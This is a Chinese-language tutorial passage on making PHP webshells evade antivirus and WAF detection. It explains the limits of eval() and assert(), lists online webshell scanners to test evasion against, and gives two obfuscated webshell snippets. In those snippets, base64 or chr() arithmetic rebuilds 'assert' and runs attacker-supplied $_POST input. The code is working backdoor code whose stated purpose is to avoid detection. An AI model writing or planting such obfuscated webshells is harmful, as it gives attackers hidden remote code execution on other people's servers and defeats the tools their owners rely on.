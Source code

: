**而我们要做的是：通过 PHP 语言的动态特性，灵活利用各种 PHP 函数和特性，混淆和变形中间两部分内容，从而达到免杀**

### 0.3 WebShell 免杀注意点

#### 0.3.1 `eval()` 高危函数

`eval()` 不能作为函数名动态执行代码，官方说明如下：eval 是一个语言构造器而不是一个函数，不能被可变函数调用

> 可变函数：通过一个变量获取其对应的变量值，然后通过给该值增加一个括号 ()，让系统认为该值是一个函数，从而当做函数来执行

人话：`eval()` 函数不能通过拼接、混淆来进行执行，只能通过明文直接写入

#### 0.3.2 `assert()` 高危函数

在 PHP7 中，`assert ()` 也不再是函数了，变成了一个语言结构（类似于 eval），不能再作为函数名动态执行代码，所以利用起来稍微复杂一点，这个感兴趣可以自行了解即可

所以在 WebShell 免杀这块，我还是更喜欢用 `system()` 高危函数，以下很多案例都是使用 `system()` 来最终执行的

### 0.4 WebShell 免杀测试

-   渊龙 Sec 团队导航（上面啥都有）： [https://dh.aabyss.cn/](https://dh.aabyss.cn/)
-   长亭牧云查杀： [https://stack.chaitin.com/security-challenge/webshell/index](https://stack.chaitin.com/security-challenge/webshell/index)
-   阿里云恶意文件检测平台：[https://ti.aliyun.com/#/webshell](https://ti.aliyun.com/#/webshell)
-   阿里伏魔引擎： [https://xz.aliyun.com/zues](https://xz.aliyun.com/zues)
-   VirusTotal： [https://www.virustotal.com/gui/home/upload](https://www.virustotal.com/gui/home/upload)
-   微步在线云沙箱： [https://s.threatbook.com/](https://s.threatbook.com/)
-   河马 WebShell 查杀： [https://n.shellpub.com/](https://n.shellpub.com/)
-   百度 WEBDIR+： [https://scanner.baidu.com/](https://scanner.baidu.com/)
-   D 盾： [http://www.d99net.net/](http://www.d99net.net/)
-   网站安全狗： [http://free.safedog.cn/website\_safedog.html](http://free.safedog.cn/website_safedog.html)

## 1# 编码绕过

这算是早期的免杀手法，可以通过编码来绕过 WAF 的检测，如下：

### 1.1 Base64 编码

```php
<?php
$f = base64_decode("YX____Nz__ZX__J0");  //解密后为 assert 高危函数
$f($_POST[aabyss]);                      //assert($_POST[aabyss]);
?>
```

### 1.2 ASCII 编码

```php
<?php
//ASCII 编码解密后为 assert 高危函数
$f =  chr(98-1).chr(116-1).chr(116-1).chr(103-2).chr(112+2).chr(110+6);
$f($_POST['aabyss']);                //assert($_POST['aabyss']);
?>
```
